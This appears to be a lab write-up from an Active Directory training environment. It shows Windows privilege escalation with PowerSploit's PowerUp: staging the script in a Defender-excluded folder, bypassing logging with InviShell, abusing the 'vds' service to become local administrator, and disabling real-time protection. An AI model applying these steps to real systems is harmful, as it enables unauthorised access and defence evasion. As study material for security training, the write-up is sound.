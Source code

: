 
***
## **Steps to Compromise**
***

> **Privilege Escalation** refers to the process of gaining higher levels of access or permissions on a computer system than originally intended by its administrator, Since we don't have administrative permissions/rights on `studvm.tech.finance.corp`, we can go ahead and escalate privileges to local administrator

- After proper enumeration the `C:\Users\studentuser\Desktop\shared\Download\` is an excluded path for windows defender, we can go ahead and upload our `PowerUp.ps1` script there

![](https://i.imgur.com/VG7OOjg.png)

- Load powerview into the current PowerShell session

```
C:\Users\studentuser\Desktop\shared\Download\InviShell\RunWithRegistryNonAdmin.bat

cd C:\Users\studentuser\Desktop\shared\Download

# loads the PowerUp.ps1 PowerShell script in current section through dot-sourcing
. 'C:\Users\studentuser\Desktop\shared\Download\PowerUp\PowerUp.ps1'
```

We can then use the `Powerup` from PowerSploit module to check for any privilege escalation path

```
Invoke-AllChecks
```

![](https://i.imgur.com/0T41gwy.png)

- Let’s use the abuse function for `Invoke-ServiceAbuse` and add our current domain user to the local Administrators group, whereby abusing the **vds** service.

> The 'vds' service refers to the "Virtual Disk" service in Windows. The Virtual Disk service is responsible for managing and providing access to virtual disks on a system. This service is associated with disk management features, including disk partitioning and volume management.

```
Invoke-ServiceAbuse -Name 'vds' -UserName 'tech\studentuser' -Verbose
```

![](https://i.imgur.com/SrSjaXM.png)

> We can see that the `tech\studentuser` is a local administrator now. Just logoff and logon again and we have local administrator privileges!

- We can also go ahead and turn off **real Time Protection** to avoid windows defender from flagging most of our tools as viruses

![](https://i.imgur.com/TKqxllj.png)

***
## **Enumeration Cont'd**
***
